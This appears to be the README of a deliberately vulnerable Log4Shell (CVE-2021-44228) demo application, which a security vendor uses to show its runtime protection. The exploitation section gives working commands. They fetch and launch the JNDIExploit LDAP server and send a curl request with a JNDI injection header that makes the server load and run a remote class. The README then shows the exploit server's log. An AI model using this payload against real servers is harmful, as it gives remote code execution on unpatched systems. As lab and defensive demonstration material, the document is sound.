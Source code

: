 # Log4Shell sample vulnerable application (CVE-2021-44228), protected by Cloud One Application Security

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/), and was modified to add Trend Micro's Cloud One Application Security agent to demonstrate technique-based web application protection to this vulnerability.

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t log4shell-vulnerable-app-c1as
docker run --rm -d -p 8080:8080 --name log4shell-vulnerable-app-c1as log4shell-vulnerable-app-c1as
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip #(looks down, try https://transfer.sh/puxohI/JNDIExploit.v1.2.zip)
unzip JNDIExploit.v1.2.zip
nohup java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888 &
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Protection with Cloud One Application Security

This assumes you have (already integrated the agent to your application)[https://cloudone.trendmicro.com/docs/application-security/install-agent/]

1. Log into Trend Micro Cloud One and navigate to Application Security.
2. Select "Group's Policy" on the left-hand menu and find your application's Group.
3. Enable "Remote Command Execution" if not already enabled.
4. Click the hamburger icon for "Configure Policy" and then click the " < INSERT RULE > " icon.
5. Input ```(?s).*``` in the "Enter a pattern to match" field and hit "Submit" and "Save Changes."
6. Double-check that "Mitigate" is selected in your "Remote Command Execution" line item.



## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://success.trendmicro.com/solution/000289940
https://www.trendmicro.com/en_us/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-acti.html


## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

